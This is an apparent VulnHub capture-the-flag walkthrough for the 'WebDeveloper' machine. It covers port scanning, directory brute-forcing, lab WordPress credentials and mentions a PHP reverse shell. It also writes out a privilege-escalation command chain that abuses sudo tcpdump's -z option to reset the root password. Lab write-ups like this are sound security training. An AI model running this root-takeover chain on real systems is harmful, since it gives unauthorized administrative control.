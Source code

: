 ```yaml
---
categories: [VulnHub]
tags: [PrivEsc]
---
```

# WebDeveloper



## Description ⤵️

>    💡 A machine using the newest
<br><br>
    REMOVED
<br><br>
    ### Server, the newest
<br><br>
    REMOVED
<br><br>
    ### and containing some
<br><br>
    REMOVED
<br><br>
    ## Changelog v1 - 2018/11/05 Beta - 2018/9/22
{: .prompt-info}



Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled.png)

```bash
IP : 192.168.56.107
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%201.png)

```bash
Open Ports >
22	SSH
80	HTTP
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%202.png)

After Directory Bruteforcing we got this :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%203.png)

After diging in I got this finally :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%204.png)

```bash
Credentials ->
log = webdeveloper
pwd = Te5eQg&4sBS!Yr$)wf%(DcAd
```

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%205.png)

Now it time to upload reverse shell code and get the shell up and running :>

**With PHP reverse shell linux code I got this :**

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%206.png)

Got these credentials from wp-config.php file :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%207.png)

```bash
Password : MasterOfTheUniverse
```

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2010.png)

flag.txt :

Congratulations here is youre flag:

`cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290`

For the root shell I changed the passwd of root to root with chpasswd command :

```bash
Command :

echo "root:root" > test.txt
COMMAND="cat /tmp/test.txt | chpasswd"
TFt=$(mktemp)
echo "$COMMAND" > $TFt
chmod +x $TFt
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TFt -Z root
```

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2011.png)

Now the flag →

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2012.png)

---